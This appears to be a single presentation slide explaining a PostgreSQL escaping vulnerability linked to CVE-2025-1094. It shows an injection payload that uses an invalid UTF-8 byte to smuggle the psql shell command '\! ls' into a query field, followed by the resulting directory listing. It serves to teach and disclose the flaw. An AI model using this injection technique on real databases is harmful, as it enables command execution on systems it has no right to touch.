

13

SELECT *
 FROM employees
 WHERE last_name = 'hax\xc0'; \! ls #' AND age > 40 AND age < 50;

SELECT * FROM employees WHERE last_name = 'haxÀ';
ERROR:  invalid byte sequence for encoding "UTF8": 0xc0 0x27
PG_VERSION            pg_multixact          pg_twophase
base                  pg_notify             pg_wal
global                pg_replslot           pg_xact
logfile               pg_serial             postgresql.auto.conf
pg_commit_ts          pg_snapshots          postgresql.conf
pg_dynshmem           pg_stat               postmaster.opts
pg_hba.conf           pg_stat_tmp           postmaster.pid
pg_ident.conf         pg_subtrans
pg_logical            pg_tblspc

CVE-2024-12356
CVE-2025-1094
# Importance of UTF-8 validation during escaping